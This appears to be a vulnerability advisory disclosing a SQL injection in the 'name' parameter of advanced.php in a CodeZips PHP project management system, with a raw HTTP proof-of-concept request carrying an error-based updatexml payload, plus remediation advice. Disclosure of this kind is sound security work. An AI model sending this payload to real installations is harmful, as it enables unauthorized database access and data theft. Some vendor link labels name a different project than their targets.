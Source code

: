# CodeZips Project Management System In PHP And MYSQL With Source Code V1.0 /pages/forms/advanced.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Project Management System In PHP And MYSQL With Source Code`

## Vendor Homepage

- [https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)

## Software Link

- [[https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/pages/forms/advanced.php' file of the 'Project Management System In PHP And MYSQL With Source Code' project.   The reason for this issue is that attackers inject malicious code from the parameter 'name' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.jpg" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Project Management System In PHP And MYSQL With Source Code", wangjiawei  discovered a critical SQL injection vulnerability in the "/pages/forms/advanced.php" file.   This vulnerability stems from insufficient  user input validation of the 'name' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "name" Parameter

### poc
```
POST /pages/forms/advanced.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/pages/forms/advanced.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' or updatexml(1,concat(0x7e,(database())),0) or '&id=1&year=1-1&email=123%40qq.com&phone=111&submit=Submit
```

<img src="./image/2.jpg" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
